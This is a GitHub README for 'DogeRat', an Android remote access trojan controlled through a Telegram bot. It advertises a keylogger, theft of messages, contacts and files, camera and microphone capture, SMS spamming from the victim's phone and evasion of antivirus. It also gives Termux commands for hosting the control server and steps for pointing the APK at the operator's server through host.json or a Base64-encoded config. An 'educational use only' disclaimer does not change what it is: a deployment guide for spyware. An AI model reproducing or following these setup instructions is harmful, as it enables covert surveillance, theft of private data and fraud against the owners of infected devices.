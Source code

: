 ![Logo](https://dogelina.com/dogs/logo.png)
<p align="center">
  <i>A multifunctional Telegram based Android RAT without port forwarding</i>
</p>



<h2 align="center">Panel Screenshot</h2>
<p align="center">
  <img src="https://dogelina.com/dogs/scr.jpg" alt="Logo" />
</p>


## Features
- 🔴 Real time
- 🌐 custom web view
- 🔔 notification reader
- 🔔 notification sender (send custom notification that apper on target device with custom click link)
- 🗨️ show toast message on target device (Toasts are messages that appear in a box at the bottom of the device)
- 📡 receive information about simcard provider
- 📳 vibrate target device
- 🛰️ receive device location
- ✉️ receive all target message
- ✉️ send sms with target device to any number
- ✉️ send sms with target device to all of his/her contacts
- 👤 recive all target contacts
- 💻 receive list of all installedd apps in target device
- 📁 receive any file or folder from target device
- 📁 delete any file or folder from target device
- 📷 capture main and front camera
- 🎙 capture microphone (with custom duration)
- 📋 receive last clipboard text
- ✅️ auto start after device boot
- 🔐 Keylogger {Availbe in apk v1 and v2}
- ✨ Beautiful telegram bot interface
-🤖 Undetectable by antivirus
<h2>Requirements</h2>
<ul>
  <li><span style="color: #0074D9;">APK EDITOR</span></li>
  <li><span style="color: #2ECC40;">TERMUX</span></li>
  <li>For hosting server code, you can use some free services like:</li>
  <ul>
    <li><a href="https://replit.com/" style="color: #FF4136;">replit.com</a></li>
    <li><a href="https://glitch.com/" style="color: #FFDC00;">glitch.com</a></li>
    <li><a href="https://heroku.com/" style="color: #B10DC9;">heroku.com</a></li>
  </ul>
  <p align="center">
  <a href="https://shivaya-dav.github.io/dogeweb/">
    <img src="https://img.shields.io/badge/📹%20VIDEO%20TUTORIALS%20AVAILABLE%20HERE-blue?style=for-the-badge" alt="Video Tutorials Available Here" />
  </a>
</p>
  <li>Keep in mind that these sites can suspend your projects, so it's better to host on your own computer.</li>
  
</ul>

<h2 align="center">Download</h2>

<p align="center">
  <a href="https://cybershieldx.com/termux.apk">
    <img src="https://img.shields.io/badge/Termux%20Download-Click%20to%20Download-brightgreen?style=for-the-badge&logo=android" alt="Download Termux" />
  </a>
  <a href="https://cybershieldx.com/editor.apk">
    <img src="https://img.shields.io/badge/APK%20Editor%20Download-Click%20to%20Download-brightgreen?style=for-the-badge&logo=android" alt="Download APK Editor" />
  </a>
</p>


## How to host server in Termux 
<p>Run the following commands in Termux:</p>



```bash  
  pkg update && upgrade -y
  pkg install git -y
  git clone https://github.com/shivaya-dav/DogeRat 
  cd DogeRat
  bash start.sh
Enter your bot token 
Enter your chatid 
And hit enter
Now open a new Tab, and give these commands
pkg install openssh
bash port.sh 
Enter your telegram username And hit enter 
Copy url and minimize the termux
```

## Edit apk
 - Open Apk editor 
 - select apk
 - choose full edit
 - select decode all files
 - go to assets folder
 - open host.json
 - and enter url
 - in socket replace url https to wss 
 - build apk ,start the bott  Enjoy

## example
```bash  
  { 
  "host": "https://yoururl.com/", 
  "socket": "wss://yoururl.com/", 
  "webView": "https://google.com/" 
}
```

## How to Build in Android Studio

To build the application in Android Studio, follow these steps:

1. Open the Android Studio and import the application source code.
2. Navigate to the following path in the source code: `Utils/AppTools.kt`.
3. In the `AppTools.kt` file, locate the `data` variable and copy your server information into it.
4. However, before copying the server information directly into the variable, you must encode it using Base64.
5. Here is an example JSON structure for your server information:
```
{
"host" : "",
"socket" : "",
"webView" : "https://www.google.com"
}
```

6. Fill in the above JSON structure with your server information.
7. Go to https://www.base64encode.org/ and copy the encoded result of your JSON data.
8. In Android Studio, paste the encoded result into the `data` variable.
9. The final code should look like this:

```kotlin
fun getAppData(): AppData {
    val data = "<your encoded server info>"
    val text = decode(data)
    return Gson().fromJson(text, AppData::class.java)
}
```


<h2 align="center">🔗 Contact and Social Media Accounts</h2>

<p align="center">
  <a href="https://t.me/Driving_uncle_personally">
    <img src="https://img.shields.io/badge/CONTACT-TELEGRAM-blue?style=for-the-badge&logo=telegram" alt="Telegram Badge"/>
  </a>
  <a href="https://instagram.com/CyberShieldX">
    <img src="https://img.shields.io/badge/CONTACT-INSTAGRAM-red?style=for-the-badge&logo=instagram" alt="Instagram Badge"/>
  </a>
  <a href="https://t.me/Driving_uncle_personally">
    <img src="https://img.shields.io/badge/CONTACT-TWITTER-blue?style=for-the-badge&logo=twitter" alt="Twitter Badge"/>
  </a>
  <a href="[https://www.youtube.com/@sphanter/about](https://youtube.com/channel/UCToOQLOgWylIjKuBy96zUuQ)">
    <img src="https://img.shields.io/badge/CONTACT-YOUTUBE-red?style=for-the-badge&logo=youtube" alt="Youtube Badge"/>
  </a>
</p>


<p align="center">
  <img src="https://img.shields.io/badge/Disclaimer-Important-red" alt="Important Disclaimer"/>
</p>

<p align="center">
  <b><i>Note:</i></b> The developer provides no warranty with this software and will not be responsible for any direct or indirect damage caused by the usage of this tool. Dogerat is built for educational and internal use only.
</p>

<p align="center">
  <b><i>Attention:</i></b> We do not endorse any illegal or unethical use of this tool. The user assumes all responsibility for the use of this software.
</p>

<p align="center">
  <b><i>Important:</i></b> To prevent any fraudulent activity, please ensure that the Instagram username is <a href="https://t.me/Driving_uncle_personally"><code>@CYBERSHIELDX</code></a> and the Telegram handle is <a href="https://t.me/Driving_uncle_personally"><code>@CYBERSHIELDX</code></a>. Beware of scams and phishing attempts that use similar usernames or handles.
</p>

<p align="center">
  <b><i>Thank you for using Dogerat - we hope it serves its intended purpose and helps you achieve your goals!</i></b>
</p>





<p align="center">
<h1 align="center">Sponsorship</h1>

<p align="center">If you find my work valuable, you can show your support by sponsoring me. 
  Your contribution will help me maintain and improve my projects, and it will encourage me to create more useful content.</p>

<p align="center">
  <a href="https://www.buymeacoffee.com/shivayadav"><img src="https://img.shields.io/badge/-Buy%20me%20a%20coffee-orange?style=for-the-badge&logo=buy-me-a-coffee&logoColor=white" alt="Buy me a coffee"></a>
</p>

<h2 align="center">Cryptocurrency Donations</h2>

<p align="center">If you prefer to donate using cryptocurrency, you can use the following wallet addresses:</p>

<p align="center">
  Bitcoin: <code>1LeLwYyDHu51875aenZaNcEnMrEbHwEKJd</code> <br>
  USDT TRC20: <code>TWX456AoupoYKwCYUKk3ZMWJtNJZRRHnrp</code>
</p>




<p align="center">Thank you to the following people for their support:</p>

<div align="center">
  <a href="https://github.com/shivaya-dav/DogeRat/stargazers">
    <img src="https://reporoster.com/stars/dark/shivaya-dav/DogeRat" alt="Stargazers" title="Stargazers" width="400" height="auto">
  </a>
  
  <a href="https://github.com/shivaya-dav/DogeRat/network/members">
    <img src="https://reporoster.com/forks/dark/shivaya-dav/DogeRat" alt="Forkers" title="Forkers" width="400" height="auto">
  </a>
</div>
